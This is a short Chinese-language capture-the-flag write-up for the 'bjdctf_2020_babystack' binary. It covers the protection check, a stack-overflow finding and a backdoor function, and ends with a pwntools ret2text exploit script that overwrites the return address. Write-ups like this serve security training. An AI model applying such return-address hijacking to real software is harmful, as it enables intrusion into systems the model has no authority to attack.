


# 知识点

ret2text


# 题目分析

1. 查看保护情况，64位程序，开启NX保护。

   ```bash
       Arch:     amd64-64-little
       RELRO:    Partial RELRO
       Stack:    No canary found
       NX:       NX enabled
       PIE:      No PIE (0x400000)
   ```

2. 拖入IDA分析，main函数让我们输入一个长度，然后read数据到buf。因此，存在栈溢出漏洞。

   

3. 发现程序存在后门函数。

   

   

# EXP

```bash
from pwn import *

context(arch = 'amd64', os = 'linux', log_level = 'debug')

io = process('./bjdctf_2020_babystack')

ret = 0x400561

io.sendlineafter('name:\n', '100')

payload = 'A' * 0x10 + 'deadbeef' + p64(ret) + p64(0x4006E6)
io.send(payload)

io.interactive()
```

